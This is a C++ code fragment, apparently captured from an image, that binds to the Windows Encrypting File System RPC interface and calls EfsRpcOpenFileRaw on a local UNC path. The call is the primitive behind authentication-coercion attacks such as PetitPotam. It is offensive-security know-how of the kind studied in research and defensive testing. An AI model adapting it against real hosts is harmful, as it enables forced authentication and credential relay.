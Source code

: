 ```c++
    RPC_STATUS RpcStatus;

    RPC_BINDING_HANDLE binding_h;

    RpcStatus = RpcStringBindingComposeW(ObjUuid, ProtSeq, NetworkAddr, Endpoint, Options, &StringBinding);
    if (RpcStatus != RPC_S_OK) {
        printf("[-] RpcStringBindingComposeW() Error: %i\n", GetLastError());
        return;
    }

    RpcStatus = RpcBindingFromStringBindingW(
        StringBinding,    // Previously created string binding
        &binding_h    // Output binding handle
    );
    if (RpcStatus != RPC_S_OK) {
        printf("[-] RpcBindingFromStringBindingW() Error: %i\n", GetLastError());
        return;
    }
    
    RpcStatus = RpcBindingSetAuthInfoW(binding_h, NetworkAddr, RPC_C_AUTHN_LEVEL_PKT_PRIVACY, RPC_C_AUTHN_GSS_NEGOTIATE, 0, RPC_C_AUTHZ_NONE);
    if (RpcStatus != RPC_S_OK) {
        printf("[-] RpcBindingSetAuthInfoW() Error: %i\n", GetLastError());
        return;
    }

    RpcStatus = RpcBindingSetOption(binding_h, 12, 50000);
    if (RpcStatus != RPC_S_OK) {
        printf("[-] RpcBindingSetOption() Error: %i\n", GetLastError());
        return;
    }

    RpcStringFreeW(&StringBinding);
    if (RpcStatus != RPC_S_OK) {
        printf("[-] RpcStringFreeW() Error: %i\n", GetLastError());
        return;
    }

    RpcTryExcept
    {
        // Invoke remote procedure here
        LPWSTR PipeFileName;
        long result;

        PipeFileName = (LPWSTR)LocalAlloc(LPTR, MAX_PATH * sizeof(WCHAR));
        StringCchPrintf(PipeFileName, MAX_PATH, L"\\\\127.0.0.1\\C$\\Folder\\test.txt");

        wprintf(L"[+] Invoking EfsRpcOpenFileRaw with target path: %ws.\r\n", PipeFileName);

        /*
         *  long EfsRpcOpenFileRaw(
         *      [in] handle_t binding_h,
         *      [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
         *      [in, string] wchar_t* FileName,
         *      [in] long Flags
         *  );
         */

        PVOID hContext;
        result = EfsRpcOpenFileRaw(binding_h, &hContext, PipeFileName, 0);
    }
    RpcExcept(EXCEPTION_EXECUTE_HANDLER);
```